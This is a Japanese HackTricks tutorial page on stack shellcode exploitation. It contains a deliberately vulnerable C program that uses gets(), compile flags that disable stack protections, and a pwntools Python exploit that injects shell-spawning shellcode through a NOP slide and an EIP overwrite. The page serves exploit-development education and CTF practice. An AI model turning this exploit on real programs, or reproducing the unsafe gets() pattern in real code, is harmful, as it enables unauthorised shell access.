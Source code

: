 # スタックシェルコード

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する。
- **HackTricks**および**HackTricks Cloud**のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する。

</details>

## 基本情報

**スタックシェルコード**は、**バイナリエクスプロイテーション**で使用される技術で、攻撃者が脆弱なプログラムのスタックにシェルコードを書き込み、その後**命令ポインタ（IP）**または**拡張命令ポインタ（EIP）**をこのシェルコードの場所を指すように変更し、それを実行させることを指します。これは、標的システムでの不正アクセスを得たり、任意のコマンドを実行するために使用される古典的な方法です。以下に、このプロセスの詳細、シンプルなCの例、および**pwntools**を使用して対応するエクスプロイトをPythonでどのように書くかについて説明します。

### Cの例：脆弱なプログラム

まず、脆弱なCプログラムのシンプルな例を見てみましょう：
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
このプログラムは、`gets()` 関数の使用によりバッファオーバーフローの脆弱性があります。

### コンパイル

このプログラムをコンパイルする際に、さまざまな保護を無効にする（脆弱な環境をシミュレートする）には、次のコマンドを使用できます：
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: スタック保護を無効にします。
* `-z execstack`: スタックを実行可能にし、スタックに格納されたシェルコードを実行するために必要です。
* `-no-pie`: 位置独立実行可能ファイルを無効にし、シェルコードが配置されるメモリアドレスを予測しやすくします。
* `-m32`: プログラムを32ビット実行可能ファイルとしてコンパイルし、しばしばエクスプロイト開発の簡略化に使用されます。

### Pwntoolsを使用したPythonエクスプロイト

以下は、**pwntools**を使用してPythonでエクスプロイトを記述し、**ret2shellcode**攻撃を実行する方法です：
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
このスクリプトは、**NOPスライド**、**シェルコード**、そして**EIP**をNOPスライドを指すアドレスで上書きして、シェルコードが実行されるようにペイロードを構築します。

**NOPスライド** (`asm('nop')`) は、実行が正確なアドレスに関係なくシェルコードに「スライド」する可能性を高めるために使用されます。`p32()`の引数を、NOPスライドに着地するためにバッファの開始アドレスにオフセットを加えた値に調整してください。

## 保護

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) は**無効にする必要があります**。そうしないと、関数が格納されるアドレスが常に同じでなくなり、win関数がどこにロードされているかを特定するためには何らかのリークが必要になります。
* [**スタックキャナリー**](../common-binary-protections-and-bypasses/stack-canaries/) も無効にする必要があります。そうしないと、侵害されたEIPリターンアドレスは決して実行されません。
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) **スタック**保護は、その領域が実行不可能であるため、スタック内のシェルコードの実行を防ぎます。

## その他の例と参考文献

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64ビット、ASLRとスタックアドレスリーク、シェルコードの書き込みとその実行
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32ビット、ASLRとスタックリーク、シェルコードの書き込みとその実行
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32ビット、ASLRとスタックリーク、exit()への呼び出しを防ぐための比較、変数の上書き、シェルコードの書き込みとその実行
